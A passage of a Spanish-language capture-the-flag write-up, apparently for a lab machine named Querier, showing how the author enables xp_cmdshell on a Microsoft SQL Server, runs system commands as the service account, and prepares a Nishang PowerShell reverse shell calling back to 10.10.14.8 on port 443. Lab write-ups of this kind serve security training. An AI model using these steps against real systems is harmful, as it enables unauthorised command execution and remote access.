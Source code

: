 Intentamos el comando 
```bash
 xp_cmdshell 
```


```bash
xp_cmdshell "whoami"
#Output
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component
    'xp_cmdshell' because this component is turned off ...
```

Aqui el error es distincto al del otro usuario. Intentamos nuevamente modificar las configuraciones.

```bash
sp_configure "xp_cmdshell", 1
#Output
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
```

El mensaje de error aqui es claro, y si es una option avanzada tenemos que modificar la config de esta option.

```bash
sp_configure "show advanced", 1
reconfigure
sp_configure "xp_cmdshell", 1
reconfigure
xp_cmdshell "whoami"
#Output

querier\mssql-svc
```

Ahora si. Ya podemos lanzar comandos a nivel de sistema. La idea ahora seria meternos en el sistema con una reverse shell.
## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell de typo Powershell {-}

Aqui vamos hacer uso de las powershells reversas de Nishang

```bash
git clone https://github.com/samratashok/nishang
cd nishang
cd Shells
cp Invoke-PowerShellTcp.ps1 /home/.../content/PS.ps1
```

En el fichero PS.ps1, añadimos el invoke del script al final del fichero

```Powershell
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.8 -Port 443
```
